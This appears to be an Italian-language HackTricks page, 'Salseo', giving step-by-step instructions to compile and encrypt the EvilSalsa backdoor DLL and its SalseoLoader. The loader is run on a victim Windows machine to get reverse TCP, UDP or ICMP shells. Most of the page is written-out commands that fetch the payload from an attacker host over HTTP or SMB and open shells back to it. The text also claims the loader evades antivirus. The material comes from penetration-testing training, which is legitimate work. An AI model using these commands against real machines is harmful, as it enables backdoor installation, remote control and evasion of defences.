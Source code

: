 # Salseo

{% hint style="success" %}
Impara e pratica l'hacking su AWS: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica l'hacking su GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>
{% endhint %}

## Compilazione dei binari

Scarica il codice sorgente da GitHub e compila **EvilSalsa** e **SalseoLoader**. Avrai bisogno di **Visual Studio** installato per compilare il codice.

Compila quei progetti per l'architettura della macchina Windows dove li utilizzerai (se Windows supporta x64, compilali per quell'architettura).

Puoi **selezionare l'architettura** all'interno di Visual Studio nella scheda **"Build"** a sinistra in **"Platform Target".**

(\*\*Se non riesci a trovare queste opzioni premi su **"Project Tab"** e poi su **"\<Project Name> Properties"**)

![](<../.gitbook/assets/image (132).png>)

Quindi, compila entrambi i progetti (Build -> Build Solution) (All'interno dei log apparirà il percorso dell'eseguibile):

![](<../.gitbook/assets/image (1) (2) (1) (1) (1).png>)

## Prepara il Backdoor

Innanzitutto, dovrai codificare il **EvilSalsa.dll.** Per farlo, puoi utilizzare lo script python **encrypterassembly.py** o puoi compilare il progetto **EncrypterAssembly**:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Ora hai tutto il necessario per eseguire tutto il Salseo: il **EvilDalsa.dll codificato** e il **binario di SalseoLoader.**

**Carica il binario SalseoLoader.exe sulla macchina. Non dovrebbero essere rilevati da alcun AV...**

## **Esegui il backdoor**

### **Ottenere una shell TCP inversa (scaricando il dll codificato tramite HTTP)**

Ricorda di avviare un nc come listener della shell inversa e un server HTTP per servire il malevolo evilsalsa.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Ottenere una shell inversa UDP (scaricando dll codificata tramite SMB)**

Ricorda di avviare un nc come listener della shell inversa e un server SMB per servire l'evilsalsa codificata (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Ottenere una shell inversa ICMP (dll già codificata all'interno della vittima)**

**Questa volta è necessario uno strumento speciale nel client per ricevere la shell inversa. Scarica:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Disabilita le risposte ICMP:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Esegui il client:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### All'interno della vittima, eseguiamo la cosa del salseo:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Compilazione di SalseoLoader come DLL esportando la funzione principale

Apri il progetto SalseoLoader usando Visual Studio.

### Aggiungi prima della funzione principale: \[DllExport]

![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

### Installa DllExport per questo progetto

#### **Strumenti** --> **Gestione pacchetti NuGet** --> **Gestisci pacchetti NuGet per la soluzione...**

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### **Cerca il pacchetto DllExport (usando la scheda Sfoglia), e premi Installa (e accetta il popup)**

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Nella cartella del tuo progetto sono comparsi i file: **DllExport.bat** e **DllExport\_Configure.bat**

### **Disinstalla DllExport**

Premi **Disinstalla** (sì, è strano ma fidati, è necessario)

![](<../.gitbook/assets/image (5) (1) (1) (2) (1).png>)

### **Esci da Visual Studio ed esegui DllExport\_configure**

Semplicemente **esci** da Visual Studio

Poi, vai nella tua **cartella SalseoLoader** ed **esegui DllExport\_Configure.bat**

Seleziona **x64** (se lo utilizzerai all'interno di una casella x64, come nel mio caso), seleziona **System.Runtime.InteropServices** (all'interno di **Namespace per DllExport**) e premi **Applica**

![](<../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

### **Apri nuovamente il progetto con Visual Studio**

**\[DllExport]** non dovrebbe più essere segnato come errore

![](<../.gitbook/assets/image (8) (1).png>)

### Compila la soluzione

Seleziona **Tipo di output = Libreria di classi** (Progetto --> Proprietà SalseoLoader --> Applicazione --> Tipo di output = Libreria di classi)

![](<../.gitbook/assets/image (10) (1).png>)

Seleziona **piattaforma x64** (Progetto --> Proprietà SalseoLoader --> Compila --> Destinazione della piattaforma = x64)

![](<../.gitbook/assets/image (9) (1) (1).png>)

Per **compilare** la soluzione: Compila --> Compila soluzione (Nella console di output apparirà il percorso del nuovo DLL)

### Testa il Dll generato

Copia e incolla il Dll dove desideri testarlo.

Esegui:
```
rundll32.exe SalseoLoader.dll,main
```
Se non appare alcun errore, probabilmente hai una DLL funzionale!!

## Ottenere una shell utilizzando la DLL

Non dimenticare di utilizzare un **server** **HTTP** e impostare un **listener nc**

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD

Il prompt dei comandi (Command Prompt) è un'interfaccia testuale che consente agli utenti di interagire con il sistema operativo utilizzando comandi testuali.
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Impara e pratica l'hacking su AWS: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica l'hacking su GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>
{% endhint %}
